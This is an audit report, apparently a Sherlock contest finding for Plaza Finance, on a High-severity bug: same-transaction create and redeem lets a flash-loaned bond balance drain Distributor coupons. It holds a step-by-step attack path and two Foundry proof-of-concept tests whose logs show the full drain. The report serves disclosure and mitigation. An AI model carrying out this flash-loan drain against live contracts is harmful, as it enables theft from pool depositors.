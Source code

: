 Joyful Yellow Raccoon

High

# Creating and Redeeming in the Same TX Can be Used for Draining the Distributors Coupons

### Summary

The missing checks from simultaneous creation and redemption inside the Pool contract, to acquire and destroy bond tokens respectively, allow a user to increase and decrease his/her bond token balance temporarily. This will lead to incorrect calculation if the mentioned balance is fetched via the dynamic `balanceOf()` function. This can be clearly seen inside the `claim()` function of the Distributor contract which will lead to the coupons and shares drainage of the Distributor contract.

### Root Cause

Inside the function `claim()` function of the Distributor contract, the bond token balance is dynamically fetched from the token contract:

```Solidity
  function claim() external whenNotPaused nonReentrant {
    BondToken bondToken = Pool(pool).bondToken();
    address couponToken = Pool(pool).couponToken();

    if (address(bondToken) == address(0) || couponToken == address(0)){
      revert UnsupportedPool();
    }

    (uint256 currentPeriod,) = bondToken.globalPool();
    uint256 balance = bondToken.balanceOf(msg.sender); // Dynamical balance fetching occurs here
    ...
}
```
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Distributor.sol#L87

As this token balance is increased via direct minting inside the pool, there is a chance to increase the bond balance to affect the share calculation mechanism:

```Solidity
  function _create(
    TokenType tokenType,
    uint256 depositAmount,
    uint256 minAmount,
    address onBehalfOf) private returns(uint256) {
    ...
    // Take reserveToken from user
    IERC20(reserveToken).safeTransferFrom(msg.sender, address(this), depositAmount);

    // Mint tokens
    if (tokenType == TokenType.BOND) {
      bondToken.mint(recipient, amount);
    } else {
      lToken.mint(recipient, amount);
    }
    ...
}
```
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L243-L250

Thus, when creating, the bond token value is increased and correspondingly, redeeming it will result in paying back the initial reserve token amount.

The problem here arises from the fact that there are not sufficient checks to prevent creating and redeeming tokens in the same block. As a result, this will open an exploit pattern to increase the bond token amount locally, claim from the distributor, and redeem the reserve tokens after it.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Bob is a user with small investments in the Pool contract
2. He gets a lot of reserve tokens via a flash-loan
3. He calls `create()` with appropriate variables inside the Pool contract and as a result, his bond token balance increases
4. He then calls `claim()` from the Distributor contract
5. After getting lots of coupons from the Distributor contract, he calls the `redeem()` function of the Pool contract
6. Now he pays back the initial reserve token flash-loan

### Impact

The Distributor coupons and shares can be drained easily by flash-loaning reserve tokens and increasing the bond token balance temporarily

### PoC

## POC 1 

For testing the `claim()` and final attack scenario with assuming the bond token balance is increased: (inside the `Distributor.t.sol`)

```Solidity
  function testClaimSharesFlashLoan() public {
    Token sharesToken = Token(_pool.couponToken());

    vm.startPrank(address(_pool));

    sharesToken.mint(address(_pool), 50*(1+10000)*10**18);
    vm.stopPrank();

    vm.startPrank(governance);
    fakeSucceededAuction(address(_pool), 0);

    vm.mockCall(
      address(0),
      abi.encodeWithSignature("state()"),
      abi.encode(uint256(1))
    );

    vm.mockCall(
      address(0),
      abi.encodeWithSignature("totalBuyCouponAmount()"),
      abi.encode(uint256(50*(1+10000)*10**18))
    );

    // increase indexed asset period - this is done by Pool when Auction starts but its mocked on this test
    _pool.bondToken().increaseIndexedAssetPeriod(params.sharesPerToken);

    _pool.distribute();
    vm.stopPrank();

    vm.startPrank(user);

    console.log("Contract share token balance is: ", sharesToken.balanceOf(address(distributor)));
    console.log("User share token balance is: ", sharesToken.balanceOf(address(user)));

    deal(address(_pool.bondToken()), user, 10_001e18); // Simulation of create inside the Pool contract
    distributor.claim();
    // After claiming the coupons, the user can redeem the initial reserves inside the Pool

    console.log("Contract share token balance is: ", sharesToken.balanceOf(address(distributor)));
    console.log("User share token balance is: ", sharesToken.balanceOf(address(user)));
    vm.stopPrank();
  }
```

The result is:

```Markdown
Ran 1 test for test/Distributor.t.sol:DistributorTest
[PASS] testClaimSharesFlashLoan() (gas: 2308053)
Logs:
  Contract share token balance is:  500050000000000000000000
  User share token balance is:  0
  Contract share token balance is:  0
  User share token balance is:  500050000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.44ms (1.23ms CPU time)
```

******************************

## POC 2 

For increasing and decreasing the bond token balance inside the Pool contract via creation and redemption: (inside the `Pool.t.sol`)

```Solidity
  function testCreateAmountsChecks() public {
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    // Mint reserve tokens
    rToken.mint(governance, 10000000000);
    rToken.mint(user, 1000);
    rToken.approve(address(poolFactory), 10000000000);

    // Create pool and approve deposit amount
    Pool _pool = Pool(poolFactory.createPool(params, 10000000000, 10000, 10000, "", "", "", "", false));
    vm.stopPrank();

    vm.startPrank(user);

    rToken.approve(address(_pool), 1000);

    console.log("Reserve token balance before Creation is: ", Token(_pool.reserveToken()).balanceOf(address(user)));
    console.log("Bond token balance before Creation is: ", BondToken(_pool.bondToken()).balanceOf(address(user)));

    // Call create and assert minted tokens
    uint256 amount = _pool.create(Pool.TokenType.BOND, 1000, 30000, block.timestamp, user);
    assertEq(amount, 30000);

    console.log("Reserve token balance after Creation is: ", Token(_pool.reserveToken()).balanceOf(address(user)));
    console.log("Bond token balance after Creation is: ", BondToken(_pool.bondToken()).balanceOf(address(user)));

    amount = _pool.redeem(Pool.TokenType.BOND, 30000, 33);

    console.log("Reserve token balance after Redemption is: ", Token(_pool.reserveToken()).balanceOf(address(user)));
    console.log("Bond token balance after Redemption is: ", BondToken(_pool.bondToken()).balanceOf(address(user)));
    vm.stopPrank();

  }
```

The result is:

```Markdown
[PASS] testCreateAmountsChecks() (gas: 1936672)
Logs:
  Reserve token balance before Creation is:  1000
  Bond token balance before Creation is:  0
  Reserve token balance after Creation is:  0
  Bond token balance after Creation is:  30000
  Reserve token balance after Redemption is:  1000
  Bond token balance after Redemption is:  0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.55ms (1.85ms CPU time)
```

### Mitigation

Instant creation and redemption within the same transaction should be prevented inside the Pool contract to avoid temporary fluctuations in the bond token balance.